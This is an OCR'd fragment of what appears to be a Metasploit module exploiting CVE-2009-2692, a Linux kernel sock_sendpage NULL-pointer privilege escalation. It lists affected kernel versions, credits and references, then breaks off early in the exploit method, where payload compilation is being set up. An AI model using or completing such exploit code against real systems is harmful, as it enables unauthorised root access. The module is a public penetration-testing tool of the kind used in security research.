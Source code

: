                         Several public exploits exist for this vulnerability, including
                        spender's wunderbar_emporium and rcvalle's ppc port, sock_sendpage.c.

                        All Linux 2.4/2.6 versions since May 2001 are believed to be affected:
                        2.4.4 up to and including 2.4.37.4; 2.6.0 up to and including 2.6.30.4
                    },
                    'License'       => MSF_LICENSE,
                    'Author'        =>
                        [
                            'Tavis Ormandy',                     # discovery
                            'Julien Tinnes <julien at cr0.org>', # discovery
                            'spender',                           # wunderbar_emporium.tgz
                            'rcvalle',                           # sock_sendpage.c
                            'egypt'                              # metasploit module
                        ],
                    'Platform'      => [ 'linux' ],
                    'Arch'          => [ ARCH_X86 ],
                    'SessionTypes'  => [ 'shell', 'meterpreter' ],
                    'References'    =>
                        [
                            [ 'CVE', '2009-2692' ],
                            [ 'URL', 'http://blog.cr0.org/2009/08/linux-null-pointer-dereference-due-to.html' ],
                            [ 'URL', 'http://www.grsecurity.net/~spender/wunderbar_emporium2.tgz' ],
                        ],
                    'Targets'       =>
                        [
                            [ 'Linux x86',       { 'Arch' => ARCH_X86 } ],
                            #[ 'Linux x64',       { 'Arch' => ARCH_X86_64 } ],
                        ],
                    'DefaultTarget' => 0,
                    'DisclosureDate' => "Aug 13 2009",
                }
                ))
        end

        def exploit
            sc = Metasm::ELF.new(@cpu)
            sc.parse %Q|
                #define DEBUGGING
                #define NULL ((void*)0)
                #ifdef __ELF__
                    .section ".bss" rwx
                    .section ".text" rwx
                    .entrypoint
                #endif
                call main
                ;push eax
                call exit
            |

            # Set up the same include order as the bionic build system.
            # See external/source/meterpreter/source/bionic/libc/Jamfile
            cparser.lexer.include_search_path = [
                "external/source/meterpreter/source/bionic/libc/include/",
                "external/source/meterpreter/source/bionic/libc/private/",
                "external/source/meterpreter/source/bionic/libc/bionic/",
                "external/source/meterpreter/source/bionic/libc/kernel/arch-x86/",
                "external/source/meterpreter/source/bionic/libc/kernel/common/",
                "external/source/meterpreter/source/bionic/libc/arch-x86/include/",
            ]